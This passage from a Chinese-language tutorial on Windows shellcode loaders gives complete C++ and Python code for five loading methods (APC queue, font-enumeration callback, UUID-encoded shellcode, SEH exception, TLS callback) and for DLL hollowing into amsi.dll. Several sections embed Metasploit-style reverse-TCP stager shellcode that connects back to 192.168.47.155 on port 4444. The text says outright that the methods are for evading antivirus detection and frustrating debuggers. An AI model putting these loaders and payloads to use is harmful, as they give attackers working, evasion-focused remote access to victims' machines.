"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

void ApcLoader() {
    // 修改 shellcode 所在内存区域的保护属性，允许执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    /*
    获取NtTestAlert函数地址, 因为它是一个内部函数.无法直接通过函数名调用
    这个函数用于检查当前线程的 APC（Asynchronous Procedure Call，异步过程调用）队列，如
    果队列中有挂起的用户模式 APC 请求，NtTestAlert 将触发它们的执行
    */
    pNtTestAlert NtTestAlert = (pNtTestAlert)(GetProcAddress(GetModuleHandleA("ntdll"), "NtTestAlert"));

    // 向当前线程的异步过程调用(APC)队列添加一个执行shellcode的任务
    QueueUserAPC((PAPCFUNC)(PTHREAD_START_ROUTINE)(LPVOID)shellcode, GetCurrentThread(), NULL);

    //调用NtTestAlert，触发 APC 队列中的任务执行（即执行 shellcode）
    NtTestAlert();
}


void main() {
    ApcLoader();
}
```


# 7.基于回调函数

这段代码的关键在于它使用 `EnumFontsW` 函数的回调机制来执行 shellcode。当 `EnumFontsW` 函数遍历到一个字体时，它将调用 shellcode 作为回调函数来处理字体信息。由于回调函数直接指向 shellcode，这样可以间接地加载并执行 shellcode

```cpp
#include <Windows.h>

unsigned char shellcode[] ="";

void CallBack() {

    void* p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(p, shellcode, sizeof(shellcode));

    /*
    * EnumFontsW是Windows API，用于枚举系统中所有可用字体
    * 参数1：设备环境句柄，表示要枚举哪个设备的字体
    * 参数2：NULL表示枚举所有字体
    * 参数3：回调函数指针，用于处理每个枚举到的字体信息
    * 参数4：回调函数参数
    */
    EnumFontsW(GetDC(NULL), NULL, (FONTENUMPROCW)p, NULL); //回调函数

}

int main() {
    CallBack();
}
```


# 8.基于uuid

## 什么是UUID

UUID（Universally Unique Identifier，通用唯一识别码）是一种为计算机系统中的所有对象分配一个唯一标识符的软件构建块。UUID 是 128 位的数字，通常由 32 个十六进制(16个字节)数字表示，并由连字符分隔成五个部分，形式为 8-4-4-4-12。例如：

```
550e8400-e29b-41d4-a716-446655440000
```

UUID 的目的是在没有中央协调机构的情况下，能够在分布式系统中生成唯一标识符。这意味着，任何人在任何地方都可以创建一个 UUID，而无需担心与其他人创建的 UUID 冲突。UUID 的设计使得它们的全局唯一性非常高，即使在不同的计算机系统和网络中也能保持唯一性。

UUID 通常用于以下场景：

- 数据库中的主键：用 UUID 作为数据库表的主键，确保每个记录都具有唯一的标识符，避免数据冲突。
- 分布式系统中的对象标识符：在分布式系统中，由于系统组件可能位于不同的计算机或网络上，使用 UUID 作为对象的唯一标识符有助于确保唯一性。
- 会话标识符：在网络应用中，使用 UUID 作为会话标识符可以确保每个会话都有唯一的识别码。
- 临时文件名：当需要创建临时文件时，使用 UUID 作为文件名可以确保不会与现有文件冲突。


## 什么是GUID

GUID（Globally Unique Identifier，全局唯一标识符）是一个 128 位长的数字，用于在软件中为对象分配唯一的标识符。GUID 和 UUID（Universally Unique Identifier）基本上是相同的概念，只是术语上的差别。实际上，GUID 是 UUID 的一种实现。

GUID 通常表示为 32 个十六进制数字，分为五组，用连字符分隔，形式如下：

```
550e8400-e29b-41d4-a716-446655440000
```


## shellcode转uuid

这段代码首先将包含 shellcode 的字节数组进行处理，确保长度是 16 的倍数。然后，将 shellcode 分为 16 字节的块，并为每个块创建一个 UUID，将这些 UUID 存储在一个列表中。最后，将这些 UUID 以 C 语言数组的形式输出

```python
import uuid

#使用cs或msf生成的python类型的shellcode
shellcode = b""
shellcode += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x64\x8b\x52"
shellcode += b"\x30\x89\xe5\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
shellcode += b"\x0f\xb7\x4a\x26\x31\xff\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49\x75\xef\x52"
shellcode += b"\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
shellcode += b"\x85\xc0\x74\x4c\x01\xd0\x50\x8b\x58\x20\x8b\x48"
shellcode += b"\x18\x01\xd3\x85\xc9\x74\x3c\x31\xff\x49\x8b\x34"
shellcode += b"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38"
shellcode += b"\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58"
shellcode += b"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c"
shellcode += b"\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
shellcode += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b\x12"
shellcode += b"\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00\x00\x68"
shellcode += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
shellcode += b"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
shellcode += b"\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f"
shellcode += b"\x9b\x68\x02\x00\x11\x5c\x89\xe6\x50\x50\x50\x50"
shellcode += b"\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97"
shellcode += b"\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85"
shellcode += b"\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00"
shellcode += b"\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
shellcode += b"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
shellcode += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5"
shellcode += b"\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
shellcode += b"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00"
shellcode += b"\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff"
shellcode += b"\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff"
shellcode += b"\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
shellcode += b"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2"
shellcode += b"\x56\x6a\x00\x53\xff\xd5"

# 用于存放shellcode转换成的uuid
uuid_list = []

# 确保 shellcode 长度是 16 的倍数，用 NOPs (\x90) 进行填充
if len(shellcode) % 16 != 0:
    shellcode += b'\x90' * (16 - len(shellcode) % 16)

# 每16字节为一组，遍历 shellcode
for i in range(0, len(shellcode), 16):
    chunk = shellcode[i:i + 16]
    # 为每组创建一个 UUID（GUID）
    uuid_chunk = uuid.UUID(bytes_le=chunk)
    uuid_list.append(str(uuid_chunk))

#输出uuid的c语言数组形式
uuids = "const char* uuids[] = {"
for uuid in uuid_list:
    uuids = uuids + f"\"{uuid}\","
uuids = uuids[:-1] + "};"
print(uuids)
```


## uuid写入shellcode

以下代码的主要目的是通过UUID加载并执行shellcode。代码的关键步骤如下：

1. 定义一个包含转换为UUID形式的shellcode字符串数组`uuids`。
2. 创建一个具有执行权限的堆`hc`。
3. 在堆上分配一块可执行内存`buffer`。
4. 检查内存分配是否成功，如果失败则输出错误信息并返回。
5. 将UUID值转换回原始的shellcode并将其存储在`buffer_backup`地址。
6. 使用`EnumSystemLocalesA`函数调用转换回的shellcode。这是通过将shellcode作为处理每个枚举到的区域设置信息的回调函数的地址传递给`EnumSystemLocalesA`函数实现的。
7. 关闭内存句柄。

```cpp
#include <Windows.h>
#include <Rpc.h>
#include <iostream>
#pragma comment(lib, "Rpcrt4.lib")
using namespace std;

//用于存放shellcode转的uuid的数组
const char* uuids[] = { "008fe8fc-0000-3160-d264-8b523089e58b","528b0c52-8b14-2872-0fb7-4a2631ff31c0","7c613cac-2c02-c120-cf0d-01c74975ef52","10528b57-428b-013c-d08b-407885c0744c","8b50d001-2058-488b-1801-d385c9743c31","348b49ff-018b-31d6-c0c1-cf0dac01c738","03f475e0-f87d-7d3b-2475-e0588b582401","0c8b66d3-8b4b-1c58-01d3-8b048b01d089","5b242444-615b-5a59-51ff-e0585f5a8b12","ffff80e9-5dff-3368-3200-00687773325f","774c6854-0726-e889-ffd0-b89001000029","685054c4-8029-006b-ffd5-6a0a68c0a82f","0002689b-5c11-e689-5050-505040504050","df0fea68-ffe0-97d5-6a10-56576899a574","85d5ff61-74c0-ff0a-4e08-75ece8670000","6a006a00-5604-6857-02d9-c85fffd583f8","8b367e00-6a36-6840-0010-0000566a0068","e553a458-d5ff-5393-6a00-5653576802d9","d5ff5fc8-f883-7d00-2858-68004000006a","0b685000-0f2f-ff30-d557-68756e4d61ff","ff5e5ed5-240c-850f-70ff-ffffe99bffff","29c301ff-75c6-c3c1-bbf0-b5a2566a0053","9090d5ff-9090-9090-9090-909090909090" };


int UuidLoader() {
    
    // 创建一个具有执行权限的堆
    HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);

    // 在堆上分配一块可执行内存
    void* buffer = HeapAlloc(hc, 0, 0x100000);

    // 检查内存分配是否成功，如果失败则输出错误信息并返回0
    if (buffer == NULL) {
        cout << "内存申请失败！" << endl;
        return 0;
    }

    
    PBYTE buffer_backup = (PBYTE)buffer;  //定义一个存储uuid转换成的二进制字节序列(shellcode)
    int elems = sizeof(uuids) / sizeof(uuids[0]);  //获取uuid数组元素的个数

    /*
    UuidFromStringA函数将UUID值转换成二进制字节序列,其语法格式如下:
    RPC_STATUS UuidFromStringA(
        RPC_CSTR StringUuid,  //指向uuid形式的字符串的指针
        UUID * Uuid  //用于接收二进制字节序列的指针
    );
    */
    // 遍历uuids数组,并将UUID转换回原始的shellcode,然后存储在buffer_backup地址
    for (int i = 0; i < elems; i++) {
        RPC_STATUS status = UuidFromStringA((RPC_CSTR)uuids[i], (UUID*)buffer_backup);
        if (status != RPC_S_OK) {
            cout << "UuidFromStringA() != S_OK" << endl;
            CloseHandle(buffer);
            return -1;
        }
        buffer_backup += 16;  
    }
    
    /*
   EnumSystemLocalesA函数用于枚举系统中支持的所有区域设置,其语法格式如下:
   BOOL EnumSystemLocalesA(
     LOCALE_ENUMPROCA lpLocaleEnumProc,  //处理每个枚举到的区域设置信息的回调函数的地址
     DWORD            dwFlags  //指定枚举的方式
   );
   */
    // 使用 EnumSystemLocalesA 函数调用转换回的 shellcode
    EnumSystemLocalesA((LOCALE_ENUMPROCA)buffer, 0);

    // 关闭内存句柄
    CloseHandle(buffer);
}

void main() {
    
    // 调用 UuidLoader 函数
    UuidLoader();
}
```


# 9.基于SEH异常处理

## 什么是SEH

SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码

SEH的工作原理是在程序中建立一个异常处理函数链。每个异常处理函数都负责处理特定的异常。当程序运行时遇到异常，操作系统会沿着异常处理函数链寻找适当的处理函数。如果找到合适的异常处理函数，系统将调用该函数并处理异常。如果没有找到合适的处理函数，系统将终止程序




在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常	

SEH的一个重要特点是它与语言无关，因此可以在C、C++等语言中使用。然而，C++提供了另一种异常处理机制：C++异常处理（`try`、`catch`和`throw`关键字）。C++异常处理机制更符合C++语言的面向对象特性，通常在C++程序中更为常用。然而，在某些情况下，SEH仍然具有独特的优势，例如在处理特定的Windows异常或与C代码交互时


## 实现代码

这种方式加载shellcode的一个好处就是在调试器环境下和正常运行环境下表现不同。当程序在调试器中运行时，调试器会接管异常处理，从而使得程序在除零异常处停止，而不会执行shellcode。这使得恶意代码的执行在调试环境下被阻止，为分析和调试带来困难

```cpp
#include<Windows.h>
#include<stdio.h>
#pragma comment(linker, "/section:.data,RWE")

// 存储要执行的shellcode
char shellcode[] = 
"\xfc\xe8\x8f\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52"
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x31\xff\x0f\xb7"
"\x4a\x26\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\x49\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01"
"\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0\x8b\x48\x18\x8b"
"\x58\x20\x01\xd3\x50\x85\xc9\x74\x3c\x49\x31\xff\x8b\x34"
"\x8b\x01\xd6\x31\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75"
"\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58\x24\x01"
"\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01"
"\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x58"
"\x5f\x5a\x8b\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8"
"\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80"
"\x6b\x00\xff\xd5\x6a\x0a\x68\xc0\xa8\x2f\x9b\x68\x02\x00"
"\x11\x5c\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea"
"\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74"
"\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f"
"\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10"
"\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53"
"\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8"
"\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e"
"\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff"
"\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a"
"\x00\x53\xff\xd5";

int a = 1;
int b = 0;

// 定义异常处理函数
int ExceptFilter()
{	
	b = 1; // 修改b的值为1，以防止无限循环的异常处理
	((void(*)(void)) & shellcode)(); // 强制转换shellcode的类型，并执行
	return EXCEPTION_CONTINUE_EXECUTION; // 在处理完异常后，程序继续执行异常发生位置的代码
	/*
	EXCEPTION_CONTINUE_EXECUTION返回值会导致程序在处理完异常后重新执行引发异常的那一行代码。
	由于ExceptFilter函数已经修改了变量b的值（将其设置为1），再次执行a / b时将不会触发异常。
	因此，这个程序不会反复加载shellcode
	*/

	/*
	异常处理函数的返回值除了有EXCEPTION_CONTINUE_EXECUTION,还有以下两个值:
	EXCEPTION_EXECUTE_HANDLER:常处理器已处理异常，程序应在_except块内继续执行
	EXCEPTION_CONTINUE_SEARCH:常处理器未处理异常，程序应继续搜索其他异常处理器
	*/

}

int main()
{
	_try // 尝试执行可能引发异常的代码块
	{	
		int c = a / b; // 故意执行除零操作以触发异常
	}
	
	_except(ExceptFilter()) { // 当异常发生时，调用ExceptFilter函数处理

	};

	return 0;
}
```


# 10.基于TLS机制

## 什么是TLS

线程局部存储（Thread Local Storage，TLS）是一种将数据与特定执行线程关联的机制。当在一个线程内部的各个函数调用之间共享数据，但不让其他线程访问时，可以使用TLS


## TLS回调函数

TLS提供了一个回调函数，在线程初始化和终止时会被调用，这个回调函数会在程序入口点(即main函数)之前执行，调试器通常会在主函数入口点设置断点，因此TLS回调函数经常被用作反调试手段

TLS回调函数允许我们编写并执行任意代码。TLS有两种类型：静态TLS和动态TLS。静态TLS将TLS相关数据硬编码在PE（Portable Executable）文件中，而动态TLS在运行时分配和管理TLS数据。

静态TLS是将TLS相关数据硬编码在PE（Portable Executable，可执行文件）中。静态TLS存储在PE头的`IMAGE_DATA_DIRECTORY DataDirectory[9]`位置，可以通过该位置找到TLS目录的详细信息

通过在TLS回调函数中加载和执行shellcode，我们可以在程序的正常执行流之前运行这段代码。这种方法可以绕过调试器设置的断点，增加分析和调试的难度

TLS回调函数遵循特殊的编写约定，与DLL主函数类似。回调函数使用以下类型定义：

```cpp
typedef VOID
(NTAPI *PIMAGE_TLS_CALLBACK) (
 PVOID DllHandle, //DLL模块的句柄
 DWORD Reason, //调用原因。这个参数与DLL调用时的原因相同，例如：DLL_PROCESS_ATTACH（当进程加载DLL时）、DLL_THREAD_ATTACH（当线程创建时）等
 PVOID Reserved  //保留参数，通常用于区分DLL是显式加载还是隐式加载
 );
```


## 实现代码

这段代码的核心目的是在程序启动时，通过TLS回调函数来执行Shellcode，而不是在主函数中执行

```cpp
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "/section:.data,RWE") 

//用于存放shellcode的数组
unsigned char shellcode[] = 
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48"
"\x8b\x72\x50\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41"
"\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49"
"\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48"
"\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2"
"\xf0\xb5\xa2\x56\xff\xd5";


//TLS回调函数
VOID NTAPI TlsCallBack(PVOID DllHandle, DWORD dwReason, PVOID Reserved)
{
	if (dwReason == DLL_PROCESS_ATTACH)
	{	
		HANDLE HeapHandle = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, sizeof(shellcode), 0);

		char* buffer = (char*)HeapAlloc(HeapHandle, HEAP_ZERO_MEMORY, sizeof(shellcode));

		memcpy(buffer, shellcode, sizeof(shellcode));

		((void(*)(void)) buffer)();
	}

}

//确保链接器在生成可执行文件时包含TLS相关的符号,即确保链接器知道程序使用了TLS功能和自定义的TLS回调函数
#pragma comment (linker, "/INCLUDE:__tls_used")  
#pragma comment (linker, "/INCLUDE:__tls_callback")


//这行代码告诉编译器，接下来的数据（如变量定义）将放置在名为.CRT$XLB的数据段中。
//.CRT$XLB是一个特殊的数据段名称，链接器将在其中寻找TLS回调函数的地址
#pragma data_seg (".CRT$XLB")

//这行代码定义了一个名为_tls_callback的变量，其类型为PIMAGE_TLS_CALLBACK（一个指向TLS回调函数的指针）。
//此变量被初始化为指向TlsCallBack函数的地址
//由于我们在第一行代码中使用了#pragma data_seg指令，_tls_callback变量将被放置在.CRT$XLB数据段中
//.CRT$XLB是一个特定的数据段名称，与C运行时（C Runtime，CRT）机制有关。在这个名称中，各部分的含义如下：
//.CRT：这个前缀表示该数据段与C运行时机制相关。
//$：这个符号在数据段名称中用作分隔符。
//XL：这两个字符表示该数据段用于存储TLS回调函数地址。在链接器处理TLS回调时，它会查找具有这个前缀的数据段。
//B：这个字母表示数据段的顺序。这个字符可以是字母表中的B到Y之间的任意一个字母。这意味着可以定义多个TLS回调，链接器会按照字母顺序调用它们。
//需要注意的是，.CRT$XLA和.CRT$XLZ这两个数据段名称是保留的，用于C运行时库的内部实现，因此不应在用户代码中使用
//EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;
EXTERN_C PIMAGE_TLS_CALLBACK _tls_callback = TlsCallBack;

//这行代码告诉编译器恢复默认的数据段。
//这意味着在这个指令之后定义的数据（如变量定义）将被放置在默认的数据段中，而不是.CRT$XLB数据段
#pragma data_seg ()


int main()
{
	printf("tls回调函数执行完后才执行我!");
	return 0;
}
```


# 11.dll镂空注入

## 简介

模块镂空（DLL Hollowing）是一种Shellcode注入技术，它借鉴了进程镂空（Process Hollowing）的原理和思路。通过利用合法模块信息来伪装恶意代码，使得检测变得困难。虽然可以通过远程DLL注入的方式将整个恶意DLL注入目标系统，但这种方法较易被检测。例如，攻击者需要将恶意DLL上传到受害者主机，而杀毒软件可以通过监控Windows/Temp/等目录来拦截远程DLL注入。

相比之下，模块镂空不具备这样的风险，因为它是在带有微软签名的DLL中镂空一个区域。为了避免进程出错，不能直接在进程空间中已存在的DLL上进行镂空。取而代之的方法是先向目标进程远程注入一个合法的系统DLL，然后再镂空它。这样一来，我们就获得了一个与Windows模块相关联的Shellcode执行环境，既能规避安全检测，又能实现恶意代码执行


## 代码实现思路

1. **确定要注入的目标进程：**根据进程ID打开目标进程，获取其句柄（示例代码中的进程ID固定为2924，实际应用中可能需要根据需求进行调整）。
2. **将合法的DLL（如amsi.dll）注入目标进程：**通过`VirtualAllocEx`和`WriteProcessMemory`将DLL名称写入远程进程的内存空间。然后，获取`LoadLibraryW`函数的地址，并在远程进程中创建一个新线程以调用该函数，实现DLL的加载。
3. **确定注入的DLL在目标进程中的基址：**使用`EnumProcessModules`函数遍历目标进程中加载的所有模块，找到已注入的合法DLL（如amsi.dll）的基址。
4. **获取DLL的入口点：**读取注入的DLL的PE头部信息，包括DOS头部和NT头部，从中获取DLL的入口点（AddressOfEntryPoint），并计算在目标进程中的实际地址。
5. **向DLL的入口点写入Shellcode：**使用`WriteProcessMemory`将Shellcode写入目标进程的DLL入口点。
6. **执行Shellcode：**在目标进程中创建一个新线程，以DLL的入口点作为线程的起始地址，从而在镂空的DLL内部执行Shellcode


## 完整代码

```cpp
#include <iostream>
#include <Windows.h>
#include <psapi.h>

// 将你的Shellcode放在这里
char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x4d\x31\xc9\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
"\x42\x3c\x48\x01\xd0\x41\x51\x66\x81\x78\x18\x0b\x02\x0f"
"\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0"
"\x74\x67\x48\x01\xd0\x44\x8b\x40\x20\x8b\x48\x18\x49\x01"
"\xd0\x50\xe3\x56\x4d\x31\xc9\x48\xff\xc9\x41\x8b\x34\x88"
"\x48\x01\xd6\x48\x31\xc0\x41\xc1\xc9\x0d\xac\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8"
"\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x41\x58\x41\x58"
"\x48\x01\xd0\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83"
"\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9"
"\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00"
"\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49"
"\x89\xe5\x49\xbc\x02\x00\x11\x5c\xc0\xa8\x2f\x9b\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5"
"\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b"
"\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31"
"\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41"
"\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58"
"\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5"
"\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00"
"\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58"
"\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00"
"\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68"
"\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba"
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f"
"\x30\xff\xd5\x57\x59\x41\xba";

int main(int argc, char* argv[])
{
    TCHAR ModuleName[] = L"C:\\windows\\system32\\amsi.dll"; //定义要注入的合法DLL的文件路径
